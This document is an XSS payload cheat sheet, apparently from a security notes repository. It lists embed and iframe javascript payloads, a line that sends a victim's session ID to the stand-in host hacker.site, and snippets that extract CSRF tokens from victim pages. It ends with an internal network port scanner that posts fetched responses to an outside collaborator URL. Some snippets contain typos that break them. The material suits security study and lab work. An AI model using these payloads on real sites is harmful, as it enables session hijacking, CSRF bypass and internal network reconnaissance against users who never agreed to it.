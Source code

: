 # XSS
## Payloads
```html
<embed src="http://hacker.site/evil.swf">
<embed src="javascript:alert(1)">
<iframe src='jAvAsCripT:alert`1`'></iframe>


```

## Extract Session Data
```js
new Image().src ="http://hacker.site/SID?"+escape(sessionStorage.getItem('sessionID'));
```

> Despite `document.cookie`, the attacker needs to be more precise because the name of the key used to store the session ID may change

## Scripts
### Extract CSRF Token from XSS in same page
Using XHR
```js
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == 4) {
var htmlSource = xhr.responseText;
//some operations…
}
}
xhr.open('GET','http://victim.site/csrf-form-page.html', true);
xhr.send();
```
Using JQuery
```js
Req= jQuery.get('http://victim.site/csrf-form-page.html', 
function() {
var htmlSource = jReq.responseText;
//some operations…
});
```
Using DOM
```js
var token = document.getElementsByName('csrf_token')[0].value
```

### Extract CSRF Token from XSS in different page
Using regex
```js
attern = /csrf_token'\svalue='(.*)'/;
token = htmlSource.match(pattern)[1]
```
Using DOM Parser
```js
parser = new DOMParser().parseFromString(htmlSource,"text/html");
token = parser.getElementsByName('csrf_token')[0];
```

### Internal Network Port Scanner 
```js
<script>
var q = [], collaboratorURL = 'http://ac3b1fe21fddcea0802d5e8a01780096.web-security-academy.net/exploit';
for(i=1;i<=255;i++){
  q.push(
  function(url){
    return function(wait){
    fetchUrl(url,wait);
    }
  }('http://192.168.0.'+i+':8080'));
}
for(i=1;i<=20;i++){
  if(q.length)q.shift()(i*100);
}
function fetchUrl(url, wait){
  var controller = new AbortController(), signal = controller.signal;
  fetch(url, {signal}).then(r=>r.text().then(text=>
    {
    location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
  }
  ))
  .catch(e => {
  if(q.length) {
    q.shift()(wait);
  }
  });
  setTimeout(x=>{
  controller.abort();
  if(q.length) {
    q.shift()(wait);
  }
  }, wait);
}
</script> 
```